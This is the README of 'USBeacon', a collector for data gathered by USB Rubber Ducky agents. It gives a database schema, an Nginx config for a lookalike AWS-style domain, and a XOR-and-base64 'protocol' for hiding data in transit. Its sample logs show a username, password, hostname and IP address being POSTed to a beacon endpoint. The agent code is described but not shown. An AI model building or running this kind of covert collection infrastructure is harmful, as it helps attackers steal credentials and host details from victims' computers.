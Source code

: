 # USBeacon

Objective(s):
> A reference implementation of a simple protocol and an agent contract to collect and transfer information from a remote computer to a collector. Mostly designed to work around USB Rubber Duckies but may be used standalone. The goals are to support the lowest common supporting protocols (clear HTTP) and minimal encryption facilities (e.g. XOR) across the board of supported agent deployment context (VBScript, etc.).


### Backend
*Location*: `/backend`
*Goal*: Stand up a collector application and store collected data in a simple database table



A. Init database: 
`python initdb.py`
```
CREATE TABLE beacon (
        id INTEGER NOT NULL,
        hashid VARCHAR(8),
        app VARCHAR(2),
        ip VARCHAR(16),
        data TEXT,
        created_at DATETIME,
        PRIMARY KEY (id)
);
```
B. Reference dependencies needed
`scripts/setup.sh`

Sample Nginx config:
```
server {
        listen 80;
        listen 443 ssl;
        server_name *.awsbuckets.online;


        ssl_certificate /etc/letsencrypt/live/<domain>/fullchain.pem;
        ssl_certificate_key /etc/letsencrypt/live/<domain?/privkey.pem;
        ssl_session_timeout 5m;
        ssl_protocols TLSv1 TLSv1.1 TLSv1.2;
        ssl_ciphers ALL:!ADH:!EXPORT56:RC4+RSA:+HIGH:+MEDIUM:+LOW:+SSLv3:+EXP;
        ssl_prefer_server_ciphers on;



        # Handle all locations
        location ~ ^/(beacon|ebeacon)/ {
                # Pass the request to Gunicorn
                proxy_pass http://127.0.0.1:8000;

                # Set some HTTP headers so that our app knows where the
                # request really came from
                proxy_set_header Host $host;
                proxy_set_header X-Real-IP $remote_addr;
                proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }
}
```
C. Start application proxied by Nginx
`scripts/start_server.sh`

### Payload Frontend Apps
Location: `/frontend`
*Goal*: Examples of code for the collecting agent running on the remote computers (Mac/Windows) and establishing communication from the agent to the collector


### Agent Provisioning 
*Location*: `/provisioning`
*Goal*: Help with USB RD provisioning (e.g firmware flashing, agent payload placement, etc.) 

### Protocol
```
Agent: base64(dec_array(xor(key, binary(bytes)))) 
Collector: ^^ reverse
```

Protocol examples (logs):
```
<Beacon: [hashid=53414C45532D5043, app=phs, ip=127.0.0.1, data=user:SM\test,pass:test] @ August 14 2019 - 05:48PM>
127.0.0.1 - - [14/Aug/2019:17:48:09 +0000] "POST /ebeacon/53414C45532D5043 HTTP/1.0" 200 0 "-" "-"
B64 Encoded: NDUsNjMsNTAsNTksNDUsODMsNDYsNjEsMzQsMTgsMzEsMjgsMzIsNDUsNjMsNTAsNTksNDUsODMsNDYsNjEsMzIsNzksNzEsNzYsODAsNzksNzIsNzAsODAsNzksNzEsNzEsODAsNzksNzcsNzQsMzI=
B64 Decoded: 45,63,50,59,45,83,46,61,34,18,31,28,32,45,63,50,59,45,83,46,61,32,79,71,76,80,79,72,70,80,79,71,71,80,79,77,74,32
Plain Payload: SALES-PC\lab^SALES-PC^192.168.1.1^

<Beacon: [hashid=53414C45532D5043, app=hid, ip=127.0.0.1, data=SALES-PC\lab^SALES-PC^192.168.1.1^] @ August 14 2019 - 06:18PM>
127.0.0.1 - - [14/Aug/2019:18:18:39 +0000] "POST /ebeacon/53414C45532D5043 HTTP/1.0" 200 0 "-" "-"
B64 Encoded: MTEsMTMsMjcsMTIsNjgsODIsMTQsMzEsMTMsMTMsNjg=
B64 Decoded: 11,13,27,12,68,82,14,31,13,13,68
Plain Payload: user:,pass:
```